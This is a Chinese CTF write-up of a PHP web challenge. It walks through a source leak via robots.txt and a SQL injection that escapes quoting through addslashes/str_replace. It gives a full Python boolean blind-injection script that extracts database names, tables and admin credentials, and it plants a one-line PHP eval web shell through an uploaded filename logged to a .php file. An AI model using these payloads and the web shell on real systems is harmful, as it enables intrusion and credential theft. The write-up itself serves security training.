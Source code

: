 ![](<./img/Pasted image 20230109083406.png>)

---
首页长这样

![](<./img/Pasted image 20230109083519.png>)

---
发现`robots.txt`

```php
/robots.txt
```

```
User-agent: *
Disallow: *.php.bak
```

访问`/index.php.bak`报`404`

`/image.php.bak`可以正常下载

```php
<?php
include "config.php";

$id=isset($_GET["id"])?$_GET["id"]:"1";
$path=isset($_GET["path"])?$_GET["path"]:"";

$id=addslashes($id);
$path=addslashes($path);

$id=str_replace(array("\\0","%00","\\'","'"),"",$id);
$path=str_replace(array("\\0","%00","\\'","'"),"",$path);

$result=mysqli_query($con,"select * from images where id='{$id}' or path='{$path}'");
$row=mysqli_fetch_array($result,MYSQLI_ASSOC);

$path="./" . $row["path"];
header("Content-Type: image/jpeg");
readfile($path);
```

`/config.php.bak`也不存在，大致是要在`image.php`的输入转义和替换这里寻找机会。

`addslashes`的作用
```
'   ==>  \'
"   ==>  \"
\   ==>  \\
NUL ==>  \x00
```

`str_replace`的作用
```
\0  ==>
%00 ==>
\'  ==>
'   ==>
```

由于`str_replace`替换`'`，所以添加`'`走不通

```
   (add_slashes)      (str_replace)
\0 =============> \\0 =============> \
```

由于`0`不被`add_slashes`处理，`\0`被`str_replace`处理，能够制造出单个`\`

如此便能对原有查询字符串中的`'`进行转义。巧的是`image.php`的查询有两个条件`id='{$id}'`和`path='{$path}'`，可以通过上面的方式将`id`的后单引号转义，于是`path`的前单引号成为`id`的后单引号，造成`path`参数的逃逸

构造`payload`

```php
/image.php?id=\0&path=or 1=1#
```

![](<./img/Pasted image 20230109095330.png>)

尝试布尔盲注

```python
import requests
import time
import sys

url = "http://52cd463b-3156-4fa6-b15a-946af9989692.node4.buuoj.cn:81/image.php"

fmt = 'or 0^(ord(substr((select(database())),%d,1))>%d)#'
# false_re = 'exists'

for i in range(0, 100):
    l = 0
    r = 127
    while l < r:
        mid = (l + r) // 2
        payload = fmt % (i, mid)
        params = {'id': '\\0', 'path': payload}
        response = requests.get(url, params)
        time.sleep(0.1)
        # if response.text.find(false_re) >= 0: # mid >= ans
        if len(response.text) < 100:
            r = mid
        else: # mid < ans
            l = mid + 1
    print(chr(l), end='')
    sys.stdout.flush()
```

```
ciscnfinal
```

```python
fmt = 'or 0^(ord(substr((select(group_concat(schema_name))from(information_schema.schemata)),%d,1))>%d)#'
```

```
information_schema,ciscnfinal,exampleDB,mysql,performance_schema
```

```python
# 不能使用单引号
fmt = 'or 0^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)=database()),%d,1))>%d)#'
```

```
images,users
```

```python
# 用16进制绕过
fmt = 'or 0^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name)=0x7573657273),%d,1))>%d)#'
```

```
username,password
```

```python
fmt = 'or 0^(ord(substr((select(group_concat(username))from(ciscnfinal.users)),%d,1))>%d)#'
```

```
admin
```

```python
fmt = 'or 0^(ord(substr((select(group_concat(password))from(ciscnfinal.users)),%d,1))>%d)#'
```

```
0925553b4e6bcb295be9
```

使用账号密码成功登录

![](<./img/Pasted image 20230109114933.png>)

尝试上传木马

```php
<?php eval($_GET['cmd']); ?>
```

```
You cant upload php file.
```

不行QAQ

随便传个文件试试

```
I logged the file name you uploaded to logs/upload.71a36304eac669b32d5fbcdb5625c3f7.log.php. LOL
```

将文件名写入`log`，尝试对文件名下手

```php
# 不能有空格
<?=eval($_GET['cmd']);?>
```

```
I logged the file name you uploaded to logs/upload.71a36304eac669b32d5fbcdb5625c3f7.log.php. LOL
```

```php
/logs/upload.71a36304eac669b32d5fbcdb5625c3f7.log.php?cmd=system('cat /flag');
```

```
User admin uploaded file flag{28a33985-0d91-4a24-a911-ccb78bfbe982}
```

#Web #PHP #源码泄漏 #robots #SQL注入 #布尔盲注 #bypass #字符串逃逸 #addslashes #str_replace